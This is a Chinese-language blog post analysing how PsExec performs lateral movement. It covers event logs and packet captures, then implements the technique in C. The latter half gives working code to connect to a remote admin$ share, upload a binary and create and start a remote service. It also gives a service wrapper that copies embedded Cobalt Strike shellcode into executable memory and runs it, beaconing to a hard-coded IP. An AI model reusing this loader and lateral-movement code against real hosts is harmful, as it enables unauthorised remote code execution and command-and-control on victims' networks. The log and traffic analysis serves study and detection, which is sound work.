psexec原理分析
前言
参加某行动时通过psexec横向过几台主机,正好之前在网上看到很多大佬分析过这款工具,今天也自己动手重新分析一次
因为很大程度上是学着大佬分析思路来分析的,所以先把参考写在前面:
https://payloads.online/archivers/2020-04-02/1
https://blog.csdn.net/qq_41874930/article/details/108455478
Psexec
Psexec被编写的初衷是为了方便服务器管理员管理大量的机器而开发的，但由于它的便捷，同时也被黑客使用。
psexec工具下载地址:
https://docs.microsoft.com/en-us/sysinternals/downloads/psexec
cs也直接集成了这款工具

Psexec原理分析
环境
win10 ip：192.168.154.7win server 2008 X64 192.168.154.31
假设已经得到win10主机的system权限
在cs上通过psexec64来横向win2008

这里看到是需要账户和密码的,但是在内网环境中很多密码都是批量设置的,也就是说通过已经拿到的win10的hash去尝试登录内网其他主机
可以看到win2008直接上线,并且是system权限

看一下win2008的安全日志

看到有多个安全日志的产生
在事件4624中,看到了win10的ip,也就是申请管理的ip

采用的NTMLv2协议,即便不知道明文,有hash值就可以转递

再看系统日志

ADMIN$这个是ipc共享中的默认共享,通常指向C:\Windows

猜想就是通过这个exe上线

这里肯定是与直接在win10上通过Psexec管理win2008的流程是不一样的,cs上执行主要目的还是反弹shell到cs上
大致流程为:
1.登陆远程主机 事件ID4624
2.连接admin$共享 事件ID7045
3.写入xxxx.exe文件到共享目录下也就是c:\windows下
4.执行xxxx.exe,随即上线
通过wireshark网络分析
直接在win10上通过psexec管理win2008
.\PsExec.exe \\192.168.154.31 -u administrator -p 123456 cmd

设置过滤规则
ip.src==192.168.154.31 or ip.dst==192.168.154.31
1.先进行TCP三次握手
2.协商协议
3.进行NTML验证
4.尝试连接$IPC
5.尝试连接ADMIN$
6.尝试写入PSEXESVC.exe

后续TCP数据包的内容,4D5A,标准的pe文件

文件写入完毕后,执行API安装服务

服务启动后会建立一个管道

实际上一共创建了4个管道


整体流程跟从被连接主机的事件看到的流程基本一致。基本都是ntlm认证、连接共享目录admin$、写文件psexesvc到共享目录、调用svcctl服务来间接调用psexesvc服务、创建四个命名管道。
实现psexec
一.与目标主机建立SMB连接
WNetAddConnection2
DWORD WNetAddConnection2W(LPNETRESOURCEW lpNetResource,LPCWSTR lpPassword,LPCWSTR lpUserName,DWORD dwFlags);
这里有例子:
https://docs.microsoft.com/en-us/windows/win32/api/winnetwk/nf-winnetwk-wnetaddconnection2w
DWORD ConnectSMBServer(LPCWSTR lpwsHost, LPCWSTR lpwsUserName, LPCWSTR lpwsPassword){// 用于存放SMB共享资源格式PWCHAR lpwsIPC = new WCHAR[MAX_PATH];DWORD dwRetVal; // 函数返回值NETRESOURCE nr; // 连接的详细信息DWORD dwFlags; // 连接选项ZeroMemory(&nr, sizeof(NETRESOURCE));swprintf(lpwsIPC, MAX_PATH, TEXT("\%s\admin$"), lpwsHost);nr.dwType = RESOURCETYPE_ANY; // 枚举所有资源nr.lpLocalName = NULL;nr.lpRemoteName = lpwsIPC; // 资源的网络名nr.lpProvider = NULL;// 如果设置了此位标志，则操作系统将在用户登录时自动尝试恢复连接。dwFlags = CONNECT_UPDATE_PROFILE;dwRetVal = WNetAddConnection2(&nr, lpwsPassword, lpwsUserName, dwFlags);if (dwRetVal == NO_ERROR){printf("Connection added to %s\n", nr.lpRemoteName);return dwRetVal;}printf("WNetAddConnection2 failed with error: %d\n", dwRetVal);return -1;}
二.上传文件到目标主机
将现有文件拷贝到新文件
BOOL CopyFile(LPCTSTR lpExistingFileName,LPCTSTR lpNewFileName,BOOL bFailIfExists);
例子：
https://docs.microsoft.com/zh-cn/windows/win32/api/winbase/nf-winbase-copyfile?f1url=%3FappId%3DDev16IDEF1%26l%3DZH-CN%26k%3Dk(WINBASE%252FCopyFile);k(CopyFile);k(DevLang-C%252B%252B);k(TargetOS-Windows)%26rd%3Dtrue
BOOL UploadFileBySMB(LPCWSTR lpwsSrcPath, LPCWSTR lpwsDstPath){DWORD dwRetVal;dwRetVal = CopyFile(lpwsSrcPath, lpwsDstPath, FALSE);return dwRetVal > 0 ? TRUE : FALSE;}
三.开启服务
例子：
https://docs.microsoft.com/zh-cn/windows/win32/api/winsvc/nf-winsvc-openscmanagera?redirectedfrom=MSDN&f1url=%3FappId%3DDev16IDEF1%26l%3DZH-CN%26k%3Dk(WINSVC%252FOpenSCManager);k(OpenSCManager);k(DevLang-C%252B%252B);k(TargetOS-Windows)%26rd%3Dtrue
SC_HANDLE OpenSCManagerA(LPCSTR lpMachineName,LPCSTR lpDatabaseName,DWORD dwDesiredAccess);
例子：
https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicew
SC_HANDLE CreateServiceW(SC_HANDLE hSCManager,LPCWSTR lpServiceName,LPCWSTR lpDisplayName,DWORD dwDesiredAccess,DWORD dwServiceType,DWORD dwStartType,DWORD dwErrorControl,LPCWSTR lpBinaryPathName,LPCWSTR lpLoadOrderGroup,LPDWORD lpdwTagId,LPCWSTR lpDependencies,LPCWSTR lpServiceStartName,LPCWSTR lpPassword);
先使用OpenSCManager在目标机器上建立与服务控制管理器的连接，并打开指定的服务控制管理器数据库
然后用CreateService创建一个服务,再通过OpenService,StartService打开并开启服务
BOOL CreateServices(LPCWSTR lpwsSCMServer, LPCWSTR lpwsServiceName, LPCWSTR lpwsServicePath){wprintf(L"Will Create Service %s\n" ,lpwsServiceName);SC_HANDLE hSCM;SC_HANDLE hService;SERVICE_STATUS ss;hSCM = OpenSCManager(lpwsSCMServer, SERVICES_ACTIVE_DATABASE, SC_MANAGER_ALL_ACCESS);if (hSCM == NULL){printf("OpenSCManager Error: %d\n",GetLastError());return -1;}hService = CreateService(hSCM, // 服务控制管理器数据库的句柄lpwsServiceName, // 要安装的服务的名称lpwsServiceName, // 用户界面程序用来标识服务的显示名称GENERIC_ALL, // 访问权限SERVICE_WIN32_OWN_PROCESS, // 与一个或多个其他服务共享一个流程的服务SERVICE_DEMAND_START, // 当进程调用StartService函数时，由服务控制管理器启动的服务 。SERVICE_ERROR_IGNORE, // 启动程序将忽略该错误并继续启动操作lpwsServicePath, // 服务二进制文件的标准路径NULL,NULL,NULL,NULL,NULL);if (hService == NULL){printf("CreateService Error: %d\n",GetLastError());return -1;}wprintf(L"Create Service Success : %s\n",lpwsServicePath);hService = OpenService(hSCM, lpwsServiceName, GENERIC_ALL);if (hService == NULL){printf("OpenService Error: %d\n", GetLastError());return -1;}printf("OpenService Success: %d!\n");StartService(hService, NULL, NULL);return 0;}
这里我生成一个cs的马,改名为sd

win2008

但是以这种方式运行服务的话一会儿就会掉,随即cs掉线

打开系统日志查看

我的理解是:要创建一个服务的话这个服务得是满足windows服务规定的格式,而不是随便一个pe文件都可以充当服务
编写服务程序
服务介绍
几乎所有的操作系统在启动的时候都会启动一些不需要与用户交互的进程，这些进程在Windows中就被称作服务。它通常用于实现客户／服务器模式中的服务器方，如我们常见的Ｗeb服务IIS，当操作系统在启动后它就自动被运行，不管是否有人登陆到系统只要系统开启它就能得到运行。
服务程序、服务控制程序（SCP，service control program）和服务控制管理器（SCM，service control manager）组成了Windows服务。我们可以通过服务控制程序操纵服务控制管理器来配置、启动、暂停、停止服务程序。其中服务程序和服务控制程序可以由我们自己来编写扩展，而服务控制管理器（windowssystem32servics.exe）则是操作系统内置的一个部件。
SCM本身也是一个服务程序（windowssystem32servics.exe），作为windows的后台服务运行的。Winlogon在系统引导的早期会将SCM启动起来。
可以看一下这篇文章,写的比较详细
https://blog.csdn.net/swartz_lubel/article/details/70255686
倾旋大佬博客中也已经给出了一个编写windwos服务的模板,链接在文章的开头
还有几篇介绍windows服务编写的:
http://www.haoservice.cn/2019/11/27/Applied13%E8%AE%A4%E8%AF%86windows%E6%9C%8D%E5%8A%A1%E5%B9%B6%E4%BD%BF%E7%94%A8VC++%E5%88%9B%E5%BB%BAwindows%E6%9C%8D%E5%8A%A1%E7%A8%8B%E5%BA%8F/
https://www.codeproject.com/Articles/499465/Simple-Windows-Service-in-Cplusplus
模板代码执行:

在模板上面加一点执行shellcode的代码:
#include <windows.h>#include <iostream>unsigned char buf[] ="\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x。。。。。。。。 \xc3\x85\xc0\x75\xe5\x58\xc3\xe8\x89\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x30\x36\x00\x12\x34\x56\x78";#define SLEEP_TIME 5000 /*间隔时间*/#define LOGFILE "C:\\Windows\\log.txt" /*信息输出文件*/SERVICE_STATUS ServiceStatus; /*服务状态*/SERVICE_STATUS_HANDLE hStatus; /*服务状态句柄*/void ServiceMain(int argc, char** argv);void CtrlHandler(DWORD request);int InitService();int main(int argc, CHAR* argv[]){WCHAR WserviceName[] = TEXT("sdd");SERVICE_TABLE_ENTRY ServiceTable[2];ServiceTable[0].lpServiceName = WserviceName;ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;ServiceTable[1].lpServiceName = NULL;ServiceTable[1].lpServiceProc = NULL;StartServiceCtrlDispatcher(ServiceTable);return 0;}int WriteToLog(const char* str){FILE* pfile;fopen_s(&pfile, LOGFILE, "a+");if (pfile == NULL){return -1;}fprintf_s(pfile, "%s\n", str);fclose(pfile);return 0;}/*Service initialization*/int InitService(){CHAR Message[] = "Monitoring started.";OutputDebugString(TEXT("Monitoring started."));int result;result = WriteToLog(Message);return(result);}/*Control Handler*/void CtrlHandler(DWORD request){switch (request){case SERVICE_CONTROL_STOP:WriteToLog("Monitoring stopped.");ServiceStatus.dwWin32ExitCode = 0;ServiceStatus.dwCurrentState = SERVICE_STOPPED;SetServiceStatus(hStatus, &ServiceStatus);return;case SERVICE_CONTROL_SHUTDOWN:WriteToLog("Monitoring stopped.");ServiceStatus.dwWin32ExitCode = 0;ServiceStatus.dwCurrentState = SERVICE_STOPPED;SetServiceStatus(hStatus, &ServiceStatus);return;default:break;}/* Report current status */SetServiceStatus(hStatus, &ServiceStatus);return;}void ServiceMain(int argc, char** argv){WCHAR WserviceName[] = TEXT("sdd");int error;ServiceStatus.dwServiceType =SERVICE_WIN32;ServiceStatus.dwCurrentState =SERVICE_START_PENDING;/*在本例中只接受系统关机和停止服务两种控制命令*/ServiceStatus.dwControlsAccepted =SERVICE_ACCEPT_SHUTDOWN |SERVICE_ACCEPT_STOP;ServiceStatus.dwWin32ExitCode = 0;ServiceStatus.dwServiceSpecificExitCode = 0;ServiceStatus.dwCheckPoint = 0;ServiceStatus.dwWaitHint = 0;hStatus = ::RegisterServiceCtrlHandler(WserviceName,(LPHANDLER_FUNCTION)CtrlHandler);if (hStatus == (SERVICE_STATUS_HANDLE)0){WriteToLog("RegisterServiceCtrlHandler failed");return;}WriteToLog("RegisterServiceCtrlHandler success");/* Initialize Service */error = InitService();if (error){/* Initialization failed */ServiceStatus.dwCurrentState =SERVICE_STOPPED;ServiceStatus.dwWin32ExitCode = -1;SetServiceStatus(hStatus, &ServiceStatus);return;}LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);memcpy(Memory, buf, sizeof(buf));((void(*)())Memory)();/*向SCM 报告运行状态*/ServiceStatus.dwCurrentState =SERVICE_RUNNING;SetServiceStatus(hStatus, &ServiceStatus);/*do something you want to do in this while loop*/MEMORYSTATUS memstatus;while (ServiceStatus.dwCurrentState ==SERVICE_RUNNING){char buffer[16];GlobalMemoryStatus(&memstatus);int availmb = memstatus.dwAvailPhys / 1024 / 1024;sprintf_s(buffer, 100, "available memory is %dMB", availmb);int result = WriteToLog(buffer);if (result){ServiceStatus.dwCurrentState = SERVICE_STOPPED;ServiceStatus.dwWin32ExitCode = -1;SetServiceStatus(hStatus,&ServiceStatus);return;}Sleep(SLEEP_TIME);}WriteToLog("service stopped");return;}

后记
本次研究psexec到这就基本结束了,我自己是没有能力研究出来的,参考了很多大佬的文章,尤其是倾旋大佬,再次感谢！

推荐阅读：
